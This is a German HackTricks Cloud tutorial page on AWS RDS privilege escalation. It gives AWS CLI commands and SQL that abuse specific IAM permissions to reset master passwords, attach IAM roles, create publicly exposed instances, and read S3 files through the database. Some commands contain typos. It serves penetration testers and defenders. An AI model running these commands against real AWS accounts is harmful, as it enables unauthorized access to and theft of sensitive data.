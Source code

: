 # AWS - RDS Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## RDS - Relational Database Service

Für weitere Informationen zu RDS siehe:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Mit dieser Berechtigung kann ein Angreifer **das Passwort des Master-Benutzers ändern** und sich in die Datenbank einloggen:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Sie müssen in der Lage sein, **Kontakt zur Datenbank** aufzunehmen (sie sind normalerweise nur aus internen Netzwerken zugänglich).
{% endhint %}

**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### rds-db:connect

Laut den [**Docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) könnte ein Benutzer mit dieser Berechtigung eine Verbindung zur DB-Instanz herstellen.

### Missbrauch von RDS-Rollen-IAM-Berechtigungen

#### Postgresql (Aurora)

{% hint style="success" %}
Wenn Sie **`SELECT datname FROM pg_database;`** ausführen und eine Datenbank namens **`rdsadmin`** finden, wissen Sie, dass Sie sich in einer **AWS Postgresql-Datenbank** befinden.
{% endhint %}

Zuerst können Sie überprüfen, ob diese Datenbank verwendet wurde, um auf einen anderen AWS-Dienst zuzugreifen. Sie könnten dies überprüfen, indem Sie sich die installierten Erweiterungen ansehen:
```sql
SELECT * FROM pg_extension;
```
Wenn Sie etwas wie **`aws_s3`** finden, können Sie davon ausgehen, dass diese Datenbank **irgendeine Art von Zugriff auf S3** hat (es gibt andere Erweiterungen wie **`aws_ml`** und **`aws_lambda`**).

Wenn Sie außerdem die Berechtigung haben, **`aws rds describe-db-clusters`** auszuführen, können Sie dort sehen, ob der **Cluster eine IAM-Rolle zugewiesen hat** im Feld **`AssociatedRoles`**. Falls vorhanden, können Sie davon ausgehen, dass die Datenbank **vorbereitet wurde, um auf andere AWS-Dienste zuzugreifen**. Basierend auf dem **Namen der Rolle** (oder wenn Sie die **Berechtigungen** der Rolle erhalten können) könnten Sie **erraten**, auf welchen zusätzlichen Zugriff die Datenbank hat.

Um nun **eine Datei in einem Bucket zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können es mit folgendem Befehl lesen:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Wenn Sie **rohe AWS-Anmeldeinformationen** hätten, könnten Sie diese auch verwenden, um auf S3-Daten zuzugreifen mit:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **muss keine Parametergruppenvariable ändern**, um auf S3 zugreifen zu können.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wenn Sie in einer mysql die Abfrage **`SELECT User, Host FROM mysql.user;`** ausführen und es einen Benutzer namens **`rdsadmin`** gibt, können Sie davon ausgehen, dass Sie sich in einer **AWS RDS mysql db** befinden.
{% endhint %}

Führen Sie in der mysql **`show variables;`** aus, und wenn die Variablen wie **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** Werte haben, können Sie davon ausgehen, dass die Datenbank vorbereitet ist, um auf S3-Daten zuzugreifen.

Wenn Sie außerdem die Berechtigung haben, **`aws rds describe-db-clusters`** auszuführen, können Sie überprüfen, ob der Cluster eine **assoziierte Rolle** hat, was normalerweise den Zugriff auf AWS-Dienste bedeutet.

Um nun **eine Datei innerhalb eines Buckets zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können sie mit folgendem Befehl lesen:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBCluster` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.\
Beachten Sie, dass einige DBs zusätzliche Konfigurationen erfordern, wie Mysql, das die Angabe der Rollen-ARN in den Parametergruppen benötigt.

### `rds:CreateDBInstance`

Nur mit dieser Berechtigung könnte ein Angreifer eine **neue Instanz innerhalb eines bereits vorhandenen Clusters** erstellen, der eine **IAM-Rolle** zugewiesen ist. Er wird das Master-Benutzerpasswort nicht ändern können, aber er könnte in der Lage sein, die neue Datenbankinstanz ins Internet zu exponieren:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Ein Angreifer mit den Berechtigungen `rds:CreateDBInstance` und `iam:PassRole` kann **eine neue RDS-Instanz mit einer angegebenen Rolle erstellen**. Der Angreifer kann dann potenziell **auf sensible Daten zugreifen** oder die Daten innerhalb der Instanz ändern.

{% hint style="warning" %}
Einige Anforderungen an die Rolle/Instanzprofil, die angehängt werden sollen (von [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Das Profil muss in Ihrem Konto existieren.
* Das Profil muss eine IAM-Rolle haben, die Amazon EC2 die Berechtigung hat, zu übernehmen.
* Der Name des Instanzprofils und der zugehörige IAM-Rollenname müssen mit dem Präfix `AWSRDSCustom` beginnen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBInstance` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.

{% hint style="warning" %}
Die DB-Instanz muss außerhalb eines Clusters sein, um dies zu ermöglichen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
